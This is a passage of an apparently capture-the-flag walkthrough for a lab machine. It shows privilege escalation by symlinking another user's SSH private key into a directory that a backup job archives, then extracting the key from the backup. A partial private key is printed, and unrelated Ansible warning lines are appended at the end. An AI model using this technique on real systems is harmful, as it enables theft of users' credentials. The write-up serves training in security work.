 ```
-r-------- 1 luis luis       33 Jul 10 20:24 user.txt
-rw------- 1 luis luis     2241 Jul 10 20:52 .viminfo
```

To exploit it we create symbolic link to the key in the `uploads` directory and wait about one minute.

```
tomcat@seal:/var/lib/tomcat9$ ln -s /home/luis/.ssh/id_rsa /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/key
```

As soon as a new backup has been created we move it to a new directory under `/tmp` since the `archives` directory seems to be cleaned up every 5 minutes.

```
tomcat@seal:/var/lib/tomcat9$ ls -la /opt/backups/archives/*
-rw-rw-r-- 1 luis luis 606055 Jul 10 22:45 /opt/backups/archives/backup-2021-07-10-22:45:33.gz
-rw-rw-r-- 1 luis luis 606055 Jul 10 22:46 /opt/backups/archives/backup-2021-07-10-22:46:33.gz
-rw-rw-r-- 1 luis luis 606055 Jul 10 22:47 /opt/backups/archives/backup-2021-07-10-22:47:33.gz
-rw-rw-r-- 1 luis luis 608910 Jul 10 22:48 /opt/backups/archives/backup-2021-07-10-22:48:33.gz
```

```
tomcat@seal:/var/lib/tomcat9$ mkdir /tmp/exfil
tomcat@seal:/var/lib/tomcat9$ cp /opt/backups/archives/backup-2021-07-10-22:48:33.gz /tmp/exfil/
```

Once copied we can extract the file and see that the id_rsa file was indeed present in Luis's home directory.

```
tomcat@seal:/var/lib/tomcat9$ cd /tmp/exfil/
tomcat@seal:/tmp/exfil$ mv backup-2021-07-10-22\:48\:33.gz archive.tar.gz
tomcat@seal:/tmp/exfil$ tar -xzvf archive.tar.gz
dashboard/
dashboard/scripts/
dashboard/images/
dashboard/css/
dashboard/uploads/
dashboard/bootstrap/
dashboard/index.html
...[snip]...
dashboard/uploads/key
...[snip]...
```

`/tmp/exfil/dashboard/uploads/key`
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG
DkID79g/4XrnoKXm2ud0gmZxdVJUAQ33Kg3Nk6czDI0wevr/YfBpCkXm5rsnfo5zjEuVGo
MTJhNZ8iOu7sCDZZA6sX48OFtuF6zuUgFqzHrdHrR4+YFawgP8OgJ9NWkapmmtkkxcEbF4
n1+v/l+74kEmti7jTiTSQgPr/ToTdvQtw12+YafVtEkB/8ipEnAIoD/B6JOOd4pPTNgX8R
MPWH93mStrqblnMOWJto9YpLxhM43v9I6EUje8gp/EcSrvHDBezEEMzZS+IbcP+hnw5ela
duLmtdTSMPTCWkpI9hXHNU9njcD+TRR/A90VHqdqLlaJkgC9zpRXB2096DVxFYdOLcjgeN
3rcnCAEhQ75VsEHXE/NHgO8zjD2o3cnAOzsMyQrqNXtPa+qHjVDch/T1TjSlCWxAFHy/OI
PxBupE/kbEoy1+dJHuR+gEp6yMlfqFyEVhUbDqyhAAAFgOAxrtXgMa7VAAAAB3NzaC1yc2
EAAAGBALN5CEgnnXSmnAkIVXKU01XC8TPatokCs4vYbJ5RLdGe5HIWa0mbBg5CA+/YP+F6
56Cl5trndIJmcXVSVAEN9yoNzZOnMwyNMHr6/2HwaQpF5ua7J36Oc4xLlRqDEyYTWfIjru
7Ag2WQOrF+PDhbbhes7lIBasx63R60ePmBWsID/DoCfTVpGqZprZJMXBGxeJ9fr/5fu+JB
JrYu404k0kID6/06E3b0LcNdvmGn1bRJAf/IqRJwCKA/weiTjneKT0zYF/ETD1h/d5kra6
m5ZzDlibaPWKS8YTON7/SOhFI3vIKfxHEq7xwwXsxBDM2UviG3D/oZ8OXpWnbi5rXU0jD0
wlpKSPYVxzVPZ43A/k0UfwPdFR6nai5WiZIAvc6UVwdtPeg1cRWHTi3I4Hjd63JwgBIUO+
VbBB1xPzR4DvM4w9qN3JwDs7DMkK6jV7T2vqh41Q3If09U40pQlsQBR8vziD8QbqRP5GxK
MtfnSR7kfoBKesjJX6hchFYVGw6soQAAAAMBAAEAAAGAJuAsvxR1svL0EbDQcYVzUbxsaw
MRTxRauAwlWxXSivmUGnJowwTlhukd2TJKhBkPW2kUXI6OWkC+it9Oevv/cgiTY0xwbmOX
```

[{% raw %}WARNING{% endraw %}]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
[{% raw %}WARNING{% endraw %}]: Consider using the file module with mode rather than running 'chmod'.  If you need to use command because file is insufficient you can add 'warn: false' to this command task or set 'command_warnings=False' in ansible.cfg to